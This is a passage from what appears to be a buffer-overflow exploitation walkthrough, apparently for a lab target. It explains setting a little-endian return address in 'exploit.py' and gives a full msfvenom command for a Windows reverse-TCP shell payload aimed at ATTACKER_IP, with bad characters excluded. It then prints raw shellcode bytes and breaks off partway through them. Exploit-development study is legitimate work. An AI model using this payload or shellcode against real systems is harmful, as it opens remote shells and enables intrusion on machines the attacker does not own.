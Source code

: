 * Results display in "Log data" window.[ ![image](../.gitbook/assets/12.png)](https://private-user-images.githubusercontent.com/157394432/312776746-73de0f8e-3e43-4ef4-9b7e-fba1fb301ca3.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MTMyNzE1MTMsIm5iZiI6MTcxMzI3MTIxMywicGF0aCI6Ii8xNTczOTQ0MzIvMzEyNzc2NzQ2LTczZGUwZjhlLTNlNDMtNGVmNC05YjdlLWZiYTFmYjMwMWNhMy5wbmc\_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQwNDE2JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MDQxNlQxMjQwMTNaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT1hMmI2OGRiMTc4N2Y5MjI1YTUzMTBkMDdiMmYwNTE5ZGU1NjQ0NjA0ZWJlYjcwYjQ4NzllYjZiZmNiNDAwZTgxJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCZhY3Rvcl9pZD0wJmtleV9pZD0wJnJlcG9faWQ9MCJ9.l5-SRY4PowDwUhI-SQ9Ke-yOEYhNvDJzoEJIMoIbHyU)
* Set "retn" variable of "exploit.py" to first address written backwards - system is little endian.
  * E.g. \x62\x50\x11\xaf = \xaf\x11\x50\x62.

#### **Generate Payload** <a href="#g3m0qn4diqqv" id="g3m0qn4diqqv"></a>

* Use msfvewnom to create payload.
  * LHOST is attack host is.
  * \-b option is all identified badchars.

msfvenom -p windows/shell\_reverse\_tcp LHOST=ATTACKER\_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c

\[...snip...]

"\xb8\xe8\xa3\x7a\x51\xd9\xc9\xd9\x74\x24\xf4\x5f\x33\xc9"

"\xb1\x52\x83\xef\xfc\x31\x47\x0e\x03\xaf\xad\x98\xa4\xd3"

"\x5a\xde\x47\x2b\x9b\xbf\xce\xce\xaa\xff\xb5\x9b\x9d\xcf"

"\xbe\xc9\x11\xbb\x93\xf9\xa2\xc9\x3b\x0e\x02\x67\x1a\x21"

"\x93\xd4\x5e\x20\x17\x27\xb3\x82\x26\xe8\xc6\xc3\x6f\x15"

"\x2a\x91\x38\x51\x99\x05\x4c\x2f\x22\xae\x1e\xa1\x22\x53"

"\xd6\xc0\x03\xc2\x6c\x9b\x83\xe5\xa1\x97\x8d\xfd\xa6\x92"

"\x44\x76\x1c\x68\x57\x5e\x6c\x91\xf4\x9f\x40\x60\x04\xd8"

"\x67\x9b\x73\x10\x94\x26\x84\xe7\xe6\xfc\x01\xf3\x41\x76"

"\xb1\xdf\x70\x5b\x24\x94\x7f\x10\x22\xf2\x63\xa7\xe7\x89"

"\x98\x2c\x06\x5d\x29\x76\x2d\x79\x71\x2c\x4c\xd8\xdf\x83"

"\x71\x3a\x80\x7c\xd4\x31\x2d\x68\x65\x18\x3a\x5d\x44\xa2"

"\xba\xc9\xdf\xd1\x88\x56\x74\x7d\xa1\x1f\x52\x7a\xc6\x35"

"\x22\x14\x39\xb6\x53\x3d\xfe\xe2\x03\x55\xd7\x8a\xcf\xa5"

"\xd8\x5e\x5f\xf5\x76\x31\x20\xa5\x36\xe1\xc8\xaf\xb8\xde"
